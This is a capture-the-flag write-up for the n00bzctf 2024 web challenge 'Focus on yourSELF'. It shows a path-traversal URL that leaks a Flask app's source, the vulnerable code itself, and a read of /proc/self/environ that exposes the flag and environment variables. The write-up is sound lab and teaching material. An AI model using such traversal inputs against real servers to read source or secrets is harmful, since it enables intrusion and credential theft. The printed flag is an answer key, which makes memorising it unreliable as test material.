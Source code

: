 ```yaml
---
title: 'n00bzctf 2024'
description: 'Here is the solutions to some of the challenges in n00bzctf 2024'
pubDate: 'Aug 5 2024'
heroImage: 
  src: '/blog-placeholder-1.jpg'
  alt: ''
order: 1
tags: ["writeup"]
---
```


# Background Information
I participated in n00bzctf in the team of lazy bums. I wanted to solve all the web but I couldn't. Kinda sucks. Also couldn't solve the pwn even though Im trying to be a pwn player...

## Web 

### Focus on yourSELF 

> Have you focused on yourself recently?

Ok so upon looking into the website we can view an image as well as upload an image. Apparently the website does not actually verify whether it is a jpg or not and it allows any upload. 

Upon further inspection, the data in the upload is translated in data in the `img` tag reflected on the web page.

Unfortunately I tried to find a way to reflect data by uploading files, but all attempts failed.

Thankfully, looking at `http://9ac72039-8f1f-42dd-967a-3ff7f0d1e626.challs.n00bzunit3d.xyz:8080/view?image=nature.jpeg` I had an idea.

What if I tried LFI in that url and get the data enclosed in the `img` tag?

So I tried ../app.py based on the dockerfile, and... it worked! We get the app.py file!

```http://9ac72039-8f1f-42dd-967a-3ff7f0d1e626.challs.n00bzunit3d.xyz:8080/view?image=../app.py```

```python
#!/usr/bin/env python3
from flask import Flask, render_template, request, redirect, url_for
from base64 import b64encode
import os
import hashlib
import subprocess

app = Flask(__name__)

@app.route("/")
def show_gallery():
    # show a gallery of predetermined images
    return render_template("gallery.html")
    
@app.route("/upload", methods=['GET', 'POST'])
def upload():
    # allow to upload an image into /uploads
    if request.method == 'POST':
        if 'file' not in request.files:
            return "Error: No file selected"
        file = request.files['file']
        name = hashlib.sha256(os.urandom(16)).digest().hex()
        file.save(f"/srv/uploads/{name}")
        return redirect(url_for("view_image", image=name))
    return render_template("upload.html")

@app.route("/view")
def view_image():
    # view a specific image
    image = request.args.get('image', '')
    if image == '':
        return "Huh"
    else:
        try:
            with open(f'/srv/uploads/{image}', 'rb') as f:
                return render_template("view.html", url=f"data:image/jpeg;base64, {b64encode(f.read()).decode()}")
        except FileNotFoundError:
                return render_template("view.html", url="https://placehold.co/600x400")

if __name__ == '__main__':
    app.run('0.0.0.0', 1337)
```

So let's just find the env for flag in /proc/self/environ and get the flag using LFI.

```bash
PATH=/usr/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin HOSTNAME=e95edce8fd15 FLAG=n00bz{Th3_3nv1r0nm3nt_det3rmine5_4h3_S3lF_3abbc2ab018e} LANG=C.UTF-8 GPG_KEY=A035C8C19219BA821ECEA86B64E628F8D684696D PYTHON_VERSION=3.10.14 PYTHON_PIP_VERSION=23.0.1 PYTHON_SETUPTOOLS_VERSION=65.5.1 PYTHON_GET_PIP_URL=https://github.com/pypa/get-pip/raw/66d8a0f637083e2c3ddffc0cb1e65ce126afb856/public/get-pip.py PYTHON_GET_PIP_SHA256=6fb7b781206356f45ad79efbb19322caa6c2a5ad39092d0d44d0fec94117e118 HOME=/home/chall 
```

> n00bz{Th3_3nv1r0nm3nt_det3rmine5_4h3_S3lF_3abbc2ab018e}